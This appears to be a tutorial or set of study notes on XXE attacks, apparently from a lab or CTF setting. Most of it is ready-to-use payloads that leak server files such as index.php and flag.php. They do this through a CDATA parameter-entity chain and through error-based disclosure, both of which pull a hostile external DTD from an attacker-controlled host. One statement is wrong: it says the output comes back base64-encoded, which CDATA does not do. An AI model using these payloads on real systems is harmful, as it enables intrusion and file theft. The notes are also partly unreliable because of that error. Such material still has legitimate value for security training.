 # Advanced File Disclosure (XXE)

Goal: Bypass standard XML parser limitations to leak files that contain XML-breaking characters or are not reflected in the response.
# 1. Problem with Standard External Entities

If you try to read a file like `index.php` using:

```xml
<!DOCTYPE email [ <!ENTITY xxe SYSTEM "file:///var/www/html/index.php"> ]>
<email>&xxe;</email>
```

you’ll likely get no output. Files with characters like `<`, `>`, `&` break the XML structure when injected directly.
# 2. CDATA Wrapping (Initial Attempt)

Wrapping content with CDATA lets you embed special characters safely:

```xml
<!ENTITY begin "<![CDATA[">
<!ENTITY file SYSTEM "file:///var/www/html/index.php">
<!ENTITY end "]]>">
<!ENTITY joined "&begin;&file;&end;">
```

But this does not work — XML doesn’t allow joining internal and external entities.
# 3. Parameter Entity Chain via External DTD

Solution: use parameter entities defined inside an external DTD, allowing external entities to be joined safely.

Step 1: Create xxe.dtd:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

Step 2: Serve DTD:

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

Step 3: XML payload sent to server:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/index.php">
  <!ENTITY % end "]]]]><![CDATA[>">
  <!ENTITY % xxe SYSTEM "http://YOUR_IP:8000/xxe.dtd">
  %xxe;
]>
<email>&joined;</email>
```

If successful, you get the file content base64-wrapped inside CDATA.

Use this method if:

- The file is not rendering due to parser errors    
- You’re dealing with non-PHP environments where php://filter is unavailable
#### 4. Error-Based File Disclosure

Used when no fields reflect output but the app leaks parser errors (e.g., `DOMDocument::loadXML()` warnings).

Step 1: Create err.dtd:

```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY xxe SYSTEM '%nonexistent;/%file;'>">
```

Step 2: XML payload:

```xml
<!DOCTYPE data [
  <!ENTITY % remote SYSTEM "http://YOUR_IP:8000/err.dtd">
  %remote;
  %error;
]>
<data>&xxe;</data>
```

When `%xxe;` is resolved, parser tries to fetch from `http://nonexistent/<file-content>`, which fails and throws an error. Error response leaks the file content embedded in the bad URI.

Works only if:

- Errors are printed to the page    
- Parser does not suppress malformed URI/invalid entity errors

Use this when:

- No visible fields reflect injected entities    
- But server is leaking parser warnings
